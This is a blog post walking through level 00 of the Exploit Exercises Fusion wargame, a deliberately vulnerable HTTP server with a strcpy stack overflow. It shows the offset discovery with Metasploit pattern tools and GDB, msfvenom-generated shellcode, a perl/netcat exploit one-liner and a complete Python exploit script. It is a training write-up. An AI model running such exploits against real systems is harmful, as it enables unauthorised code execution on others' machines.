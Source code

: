 ```yaml
---
layout: post
title: "Exploit Exercises - Fusion 00"
date: 2012-04-09T17:13:00-04:00
comments: true
categories:
 - wargames
 - linux
 - exploit-exercises
 - fusion
 - hacking
---
```


I was very excited to see the announcement on twitter, that [Fusion](http://exploit-exercises.com/fusion) was going to be released, even if it's just the first 10 levels. I was a bit bummed, as I didn't think I'd get to work on it much, until I complete [PWB](http://www.offensive-security.com/online-information-security-training/penetration-testing-backtrack/), but I managed to find a little time to at least start it. I pulled up [level 00](http://exploit-exercises.com/fusion/level00), which looks to be a basic stack overflow in an http server. 

<!-- more -->

The code for the server is below: 

```
#include "../common/common.c" 

int fix_path(char *path)
{
 char resolved[128];

 if(realpath(path, resolved) == NULL) return 1; // can't access path. will error trying to open
 strcpy(path, resolved);
}

char *parse_http_request()
{
 char buffer[1024];
 char *path;
 char *q;

 printf("[debug] buffer is at 0x%08x :-)\n", buffer);

 if(read(0, buffer, sizeof(buffer)) <= 0) errx(0, "Failed to read from remote host");
 if(memcmp(buffer, "GET ", 4) != 0) errx(0, "Not a GET request");

 path = &buffer[4];
 q = strchr(path, ' ');
 if(! q) errx(0, "No protocol version specified");
 *q++ = 0;
 if(strncmp(q, "HTTP/1.1", 8) != 0) errx(0, "Invalid protocol");

 fix_path(path);

 printf("trying to access %s\n", path);

 return path;
}

int main(int argc, char **argv, char **envp)
{
 int fd;
 char *p;

 background_process(NAME, UID, GID); 
 fd = serve_forever(PORT);
 set_io(fd);

 parse_http_request(); 
}
```

I initially had to read through the code a few times to figure out where the overflow was, to be quite honest. When an HTTP request comes in, it goes to the "parse_http_request" method. From there, it reads the buffr in by using the "read" method. Unfortunately for us, it is being careful to only read in as many bytes as it can put into the buffer.  It then does some basic handling to parse out the request.  It verifies that it was a "GET" request, and that it was done using HTTP/1.1. After that, it will pass the path of the URI to "fix_path". In this method, there <i>IS</i> an overflow, since the "resolved" variable has 128 bytes to hold data, but there is no checking of size when the "strcpy" is done. 

I logged into the machine, and made sure that I could actually get a core dump to be created if the process had an exception.  To do this, I changed the core settings for my user: 

```
fusion@fusion:/$ ulimit -c unlimited
```

Based on my analysis, I knew I would be overflowing the URI path, but based on the note given to me, I would put my shellcode after the "HTTP/1.1" since there was a lot more room.  However, I didn't know the EIP offset. So I generated a quick MSF pattern on another machine: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

I then started to wire up an exploit like so: 

```
fusion@fusion:/$ perl -e 'print "GET /". "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

Note that the "\x99\xf9\xff\xbf" value was simply guessed by taking the buffer offset (conveniently given to us at runtime) of "0xbffff8f8", and adding to it enough bytes for the "GET", the MSF buffer, and the "HTTP/1.1". I had played previously by hand, and knew how long the buffer would be, so I didn't need to break this into 2 steps. 

After executing the command, I found a handy "core" file in the root directory. So I loaded it up in GDB to get the offset: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2280]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 11, Segmentation fault.
#0  0x65413665 in ?? ()
```

Next, I took that EIP value, and ran it through the MSF Pattern Offset calculator: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x65413665
139
```

This was convenient enough to let me know that the first 139 bytes were junk, but then I had direct access to the EIP. If my estimate for a return address was close enough to hit a nop sled, it would then hit the "\xcc" debug/trace point. I then tested that: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\xcc"x100' | nc localhost 20000
```

When I loaded the new core file into GDB, I saw that it indeed hit the debug trap: 

```
fusion@fusion:/$ sudo gdb --core=/core --quiet
[New LWP 2310]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbffff9fb in ?? ()
(gdb) x/10x $eip
0xbffff9fb:     0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
0xbffffa03:     0xcc    0xcc
```

The next step was to generate some shellcode.   verified that the process was running as a UID of 20000, and not SUID, so I'm guessing at the end result here. The challenge to me was actually getting the exploit to work, so what the shellcode did was not a big event for me.  I decided to just make it write a file to /tmp. This could however be adapted to anything else. 

I used Metasploit's MSFVenom tool to generate me some shellcode to "touch /tmp/poo" as a test: 

```
mandreko@li225-134:~$ msfvenom -p linux/x86/exec -f pl CMD="touch /tmp/poo"
my $buf =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" .
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00" .
"\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f" .
"\x6f\x00\x57\x53\x89\xe1\xcd\x80";
```

I then plugged that shellcode into my exploit: 

```
fusion@fusion:/$ perl -e 'print "GET /". "A"x139 . "\x99\xf9\xff\xbf" . " HTTP/1.1\n" . "\x90"x100 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"' | nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
```

Lastly, I verified that it did run the shellcode: 

```
fusion@fusion:/$ ls -al /tmp
total 8
drwxrwxrwt  2 root  root  4096 2012-04-09 21:25 .
drwxr-xr-x 22 root  root  4096 2012-04-09 21:22 ..
-rw-r--r--  1 20000 20000    0 2012-04-09 21:25 poo
```

There you have it, successful exploitation, using very basic methods. This one felt very much like the first day back from summer break, but I'm guessing it'll get much harder quickly. 

UPDATE 5/7/2012: Added python exploit: 

```
# Fusion Level 00
# http://exploit-exercises.com/fusion/level00
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("<I", 0xbffff999)
        nops = "\x90"*100
        shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0f\x00\x00\x00\x74\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x70\x6f\x6f\x00\x57\x53\x89\xe1\xcd\x80"

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        print s.recv(1024)
        s.send("GET /" + junk + ret + " HTTP/1.1\n" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20000,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```